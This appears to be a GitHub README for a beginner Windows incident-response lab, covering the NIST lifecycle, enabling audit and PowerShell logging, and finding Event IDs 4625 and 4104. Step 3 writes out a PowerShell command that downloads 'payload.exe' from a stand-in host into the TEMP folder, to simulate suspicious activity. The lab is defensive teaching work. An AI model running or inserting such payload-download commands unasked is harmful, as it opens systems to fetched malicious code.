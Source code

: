 # 🔐 Day #11 – Incident Response Lab (Windows)

![Windows](https://img.shields.io/badge/System-Windows10%2F11-blue?style=flat-square&logo=windows)
![PowerShell](https://img.shields.io/badge/Tool-PowerShell-blue?style=flat-square&logo=powershell)
![SOC](https://img.shields.io/badge/Role-SOC%20Analyst-critical?style=flat-square&logo=security)
![Lab Status](https://img.shields.io/badge/Lab%20Status-Complete-success?style=flat-square)
![Stars](https://img.shields.io/github/stars/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![Forks](https://img.shields.io/github/forks/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![Last Commit](https://img.shields.io/github/last-commit/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![Repo Size](https://img.shields.io/github/repo-size/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![License](https://img.shields.io/github/license/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)

## 🎯 Objective
Introduce the basics of incident response and simulate common incidents on Windows using built-in tools.

---

## 🧠 What is Incident Response?
Incident Response (IR) is a structured method to handle the aftermath of a cyberattack. It includes:
- Detecting the incident
- Containing the damage
- Investigating the root cause
- Restoring normal operations
- Documenting and reporting findings

---

## 🔄 NIST Incident Response Lifecycle
| Phase | Description |
|-------|-------------|
| 1. Preparation | Setup policies, logs, and tools |
| 2. Detection & Analysis | Identify potential incidents |
| 3. Containment, Eradication, Recovery | Isolate & clean systems |
| 4. Post-Incident | Review and update plans |

---

## 🧪 Lab Simulation: Unauthorized Access

### ✅ Preparation Steps:
1. Run `secpol.msc` ➜ Enable:
   - Audit Logon Events (Success & Failure)
   - Audit Process Creation
2. Enable PowerShell Logging:
   - Script Block Logging
   - Module Logging (via GPO or Registry)

---

### 🛠 Step 1: Simulate Failed Logins
- Lock screen (Win + L)
- Try 2–3 incorrect passwords

---

### 🔍 Step 2: Detect Event ID 4625
- Open **Event Viewer** ➜ `Windows Logs → Security`
- Filter by **Event ID: 4625**
- Note:
  - Account name
  - IP (if present)
  - Logon type

📸 Screenshot required: *Event ID 4625 result*

---

### 🧪 Step 3: Simulate Suspicious PowerShell
```powershell
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
```
---

### 🔍 Step 4: Detect PowerShell Event ID 4104

- Event Viewer ➜ Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
- Filter: **Event ID 4104**
- Identify the PowerShell command

📸 **Screenshot Required:** `Event ID 4104 result`

---

### 🔐 Step 5: Response Actions

- Kill the process in Task Manager
- Delete `payload.exe` from `%TEMP%`
- Record the following in `event_logs.txt`:
  - Username
  - Timestamps
  - Command line arguments

---

### 📝 Submission Instructions

📂 Add the following to your GitHub repo:
- ✅ `images/failed_login.png`
- ✅ `images/powershell_download.png`
- 🧾 Log contents: `event_logs.txt`

---

### 📚 Learnings

- Incident Response requires fast detection, visibility, and quick containment
- Windows Event Viewer provides critical log data
- PowerShell activity logs (Event ID 4104) reveal potentially malicious behavior

---

### 📌 Tags

`#SOCAnalyst` `#IncidentResponse` `#WindowsSecurity` `#EventViewer` `#PowerShellLogging`

---

### 📷 Add images in README

Place your images in the `/images/` folder and embed them like this:

Failed Login - Event ID 4625
![Failed Login - Event ID 4625](./images/failed_login.png)
PowerShell Download - Event ID 4104
![PowerShell Download - Event ID 4104](./images/powershell_download.png)
